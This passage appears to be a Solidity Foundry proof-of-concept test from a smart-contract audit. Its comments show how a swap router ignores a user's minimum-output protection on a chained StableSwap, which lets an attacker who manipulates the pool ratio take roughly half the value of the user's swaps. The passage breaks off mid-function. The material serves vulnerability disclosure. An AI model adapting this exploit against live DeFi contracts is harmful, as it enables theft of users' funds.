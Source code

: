 ```solidity
        // @audit => Should get ~590 USDC
      inputsUser[0] = abi.encode(ActionConstants.ADDRESS_THIS, WETH_AMOUNT, 0, pathSwap1, true);

      //@audit => swap 250 CAKE for BUSDC and leave the BUSDC on the router to do smth with them
        // @audit => Should get ~660 BUSDC
      inputsUser[1] = abi.encode(ActionConstants.ADDRESS_THIS, CAKE_AMOUNT, 0, pathSwap2, true);

      //@audit => Users sets a minimum amount of BUSDC to receive for the USDC of the first swap. (At least a 90%!)
        //@audit => The user is explicitly setting the minimum amount of BUSDC to receive as ~530 BUSDC!
      //@audit => Because of the bug, the minimum amount of BUSDC the user is willing to receive will be ignored!
      uint256 busdc_amountOutMinimum = (((weth_usdc_ratio * usdc_busdc_ratio / 1e18) * 9) / 10);

      //@audit => Do a StableSwap of USDC to BUSDC using the USDC received on the first swap!
        // @audit => In the end, the Router should have at least 1250 BUSDC after all the swaps are completed
      inputsUser[2] = abi.encode(ActionConstants.ADDRESS_THIS, ActionConstants.CONTRACT_BALANCE, busdc_amountOutMinimum, stableSwapPath, pairFlag, false);

      bytes memory commandsUser = abi.encodePacked(bytes1(uint8(Commands.V2_SWAP_EXACT_IN)), bytes1(uint8(Commands.V2_SWAP_EXACT_IN)), bytes1(uint8(Commands.STABLE_SWAP_EXACT_IN)));
      vm.prank(user);
      router.execute(commandsUser, inputsUser);

      //@audit => The router only has ~660 BUSDC after swapping 1 WBNB and 250 CAKE
        //@audit => Even though the user specified a minimum amount when swapping the USDC that was received on the first swap, because of the bug, such protection is ignored.
      uint256 busdcReceived = BUSDC.balanceOf(address(router));
      assert(busdcReceived < 675e18);
      console.log("busdcReceived:" , busdcReceived);

      //@audit => Results: The user swapped 1 WBNB and 250 CAKE worth ~1250 USD, and in reality it only received less than 675 USD.
      //@audit => The attacker manipulated the ratio on the StablePool which allows him to steal on the swap of USDC ==> BUSDC
    }

    function _helperFunction() internal returns(address[] memory pathSwap1, address[] memory pathSwap2, address[] memory stableSwapPath, uint256[] memory pairFlag) {
      pathSwap1 = new address[](2);     // WBNB => USDC
      pathSwap1[0] = address(WETH9);
      pathSwap1[1] = address(USDC);

      pathSwap2 = new address[](2);     // CAKE => BUSDC
      pathSwap2[0] = address(CAKE);
      pathSwap2[1] = address(BUSDC);

      stableSwapPath = new address[](2); // USDC => BUSDC
      stableSwapPath[0] = address(USDC);
      stableSwapPath[1] = address(BUSDC);
      pairFlag = new uint256[](1);
      pairFlag[0] = 2; // 2 is the flag to indicate StableSwapTwoPool
    }

    function _computeConvertionRatios(address[] memory pathSwap1, address[] memory pathSwap2, address[] memory stableSwapPath, uint256[] memory pairFlag) internal
    returns (uint256 weth_usdc_ratio, uint256 cake_busdc_ratio, uint256 usdc_busdc_ratio) {
        bytes[] memory inputsHelperUser = new bytes[](2);
        //@audit => swap 1 WBNB for USDC to get an approximate of the current conversion between WBNB to USDC
        inputsHelperUser[0] = abi.encode(ActionConstants.MSG_SENDER, 1e18, 0, pathSwap1, true);
```